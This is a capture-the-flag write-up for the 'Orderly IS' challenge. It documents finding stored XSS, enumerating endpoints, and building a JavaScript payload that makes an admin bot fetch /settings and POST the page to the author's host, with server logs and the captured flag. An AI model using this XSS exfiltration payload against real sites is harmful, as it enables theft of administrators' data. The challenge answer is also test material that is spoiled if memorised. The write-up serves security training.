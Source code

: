 # Orderly IS

Hi, packet inspector,

do you want to order something? Use our Orderly information system, it is intuitive, fast, reliable and secure! At least
that's what we claim in the TV ad. In last few hours it began to act weirdly, but its administrator is on vacation away
from civilization (and connectivity).

You will have to break into the [Orderly information system](http://orderly.mysterious-delivery.tcc:23000/) and check
its configuration.

May the Packet be with you!

---

I enjoyed this challenge. This is the web

![](portal.png)

We can post any data and the data is rendered back. I tried a few payload and discovered XSS vulnerability.

PoC:

```
<script>alert(1)</script>
```

In the meantime, I ran `nmap` and `dirb`. The latter discovered an interesting endpoint:

```
$ dirb http://orderly.mysterious-delivery.tcc:23000/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Tue Oct 25 20:21:24 2022
URL_BASE: http://orderly.mysterious-delivery.tcc:23000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://orderly.mysterious-delivery.tcc:23000/ ----
==> DIRECTORY: http://orderly.mysterious-delivery.tcc:23000/javascript/
+ http://orderly.mysterious-delivery.tcc:23000/login (CODE:200|SIZE:1846)
+ http://orderly.mysterious-delivery.tcc:23000/logout (CODE:302|SIZE:199)
+ http://orderly.mysterious-delivery.tcc:23000/server-status (CODE:403|SIZE:299)
+ http://orderly.mysterious-delivery.tcc:23000/settings (CODE:302|SIZE:199)

---- Entering directory: http://orderly.mysterious-delivery.tcc:23000/javascript/ ----
==> DIRECTORY: http://orderly.mysterious-delivery.tcc:23000/javascript/jquery/

---- Entering directory: http://orderly.mysterious-delivery.tcc:23000/javascript/jquery/ ----
+ http://orderly.mysterious-delivery.tcc:23000/javascript/jquery/jquery (CODE:200|SIZE:287600)
```

This is interesting: `+ http://orderly.mysterious-delivery.tcc:23000/settings (CODE:302|SIZE:199)`

I have already seen a bit similar challenge so the next logical step was to verify that XSS payload is triggered
by the "admin". Likely, after solving [XML Prettifier](../02-xml-prettifier/README.md) I already knew I can use
my computer to hosts payloads.

The second PoC (don't forget about the firewall):

1. Get your VPN IP (`10.200.0.11`)
2. Configure/disable firewall
3. Run HTTP server on `10.200.0.11` (I'm using Python `http.server`)

Payload:

```
<img src="http://10.200.0.11:8000/test"/>
```

HTTP server log:

```
::ffff:10.200.0.11 - - [25/Oct/2022 20:27:05] code 404, message File not found
::ffff:10.200.0.11 - - [25/Oct/2022 20:27:05] "GET /test HTTP/1.1" 404 -
::ffff:10.99.0.5 - - [25/Oct/2022 20:27:05] code 404, message File not found
::ffff:10.99.0.5 - - [25/Oct/2022 20:27:05] "GET /test HTTP/1.1" 404 -
```

Bingo, there's hit from `10.99.0.5`!

Now, let's make a real exploit. My first idea was to steel the session cookie and use it to impersonate the admin but
the cookie is `httpOnly` so it wouldn't work.

The idea is simple. First HTTP request to read `settings`, second HTTP request to post the response of the first
request back to my localhost:

Also, don't forget about [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS). To make it work, I added
the following handler for `OPTIONS` method:

```python
def do_OPTIONS(self):
    self.send_response(HTTPStatus.OK)
    self.send_header("Access-Control-Allow-Origin", "*")
    self.send_header("Access-Control-Allow-Headers", "*")
    self.end_headers()
```

Those HTTP headers make CORS possible.

Run my customized [HTTP server](../../../../src/main/python/catch22/OrderlyIS/http-server.py) and send the exploit:

```html

<script>
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "/settings", false);
    xhr.send(null);
    var response = xhr.responseText;

    var xhr = new XMLHttpRequest();
    xhr.open("POST", "http://10.200.0.11:8000/", false);
    xhr.send(JSON.stringify({
        response
    }));
</script>
```

The POST request is indeed logged:

```
POST /

Headers:
Host: 10.200.0.11:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.99.0.131:23000/
Content-Type: text/plain;charset=UTF-8
Content-Length: 1639
Origin: http://10.99.0.131:23000
Connection: keep-alive

Body:
{"response":"\n\n<!doctype html>\n<html lang=\"en\">\n  \n<head>\n\t<meta charset=\"utf-8\">\n\t<meta name=\"viewport\" content=\"width=device-width, initial-scale=1, shrink-to-fit=no\">\n\t<link rel=\"stylesheet\" href=\"/static/bootstrap.min.css\">\n\t<title>Settings (adminuser)</title>\n\n\t<link rel=\"stylesheet\" href=\"/static/style.css\">\n</head>\n\n<body>\n\t<nav class=\"navbar navbar-expand navbar-dark bg-dark fixed-top py-0\">\n\t\t<div class=\"container\">\n\t\t\t<a class=\"navbar-brand\" href=\"/\">Orderly</a>\n\t\t\t<button class=\"navbar-toggler\" type=\"button\" data-toggle=\"collapse\" data-target=\"#navbarResponsive\" aria-controls=\"navbarResponsive\" aria-expanded=\"false\" aria-label=\"Toggle navigation\"><span class=\"navbar-toggler-icon\"></span></button>\n\t\t\t<div class=\"collapse navbar-collapse\" id=\"navbarResponsive\">\n\t\t\t\t<ul class=\"navbar-nav ml-auto\">\n\t\t\t\t\t<li class=\"nav-item\"><a class=\"nav-link\" href=\"/order/add\">Add</a></li>\n\t\t\t\t\t<!-- begin only admins -->\n\t\t\t\t\n\t\t\t\t\t<!-- end only admins -->\n\t\t\t\t\n\t\t\t\t\t<li class=\"nav-item\"><a class=\"nav-link\" href=\"/order/process\">Process</a></li>\n\t\t\t\t\t<li class=\"nav-item\"><a class=\"nav-link\" href=\"/logout\">Logout</a></li>\n\t\t\t\t\n\t\t\t\t</ul>\n\t\t\t</div>\n\t\t</div>\n\t</nav>\n\n        <div class=\"container\">\n\t\t<div>\n\t\t\n\t\t\n\t\t\n\t\t</div>\n\n\t\t\n<h1>Settings</h1>\n<span id=\"flag\">FLAG{9QVE-0miw-qnwm-ER9m}\n</span>\n\n        </div>\n\n\t<script src=\"/static/jquery.min.js\"></script>\n\t<script src=\"/static/bootstrap.min.js\"></script>\n</body>\n\n</html>"}

10.99.0.3 - - [25/Oct/2022 20:42:34] "POST / HTTP/1.1" 200 -

```

Here is the cut [Settings page](settings.html).

And the flag `FLAG{9QVE-0miw-qnwm-ER9m}`